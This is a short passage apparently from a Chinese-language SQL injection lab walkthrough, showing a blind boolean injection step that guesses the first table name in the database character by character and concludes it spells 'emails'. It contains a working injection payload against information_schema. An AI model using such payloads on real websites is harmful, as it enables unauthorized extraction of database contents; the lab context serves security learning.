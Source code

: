 ### 长度是6

再猜字符：

```
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=117 --+
```

![image-20250904015649980](images/image-20250904015649980.png)

![image-20250904015753669](images/image-20250904015753669.png)

```
拼接一下就是 emails，后续表不做演示
```
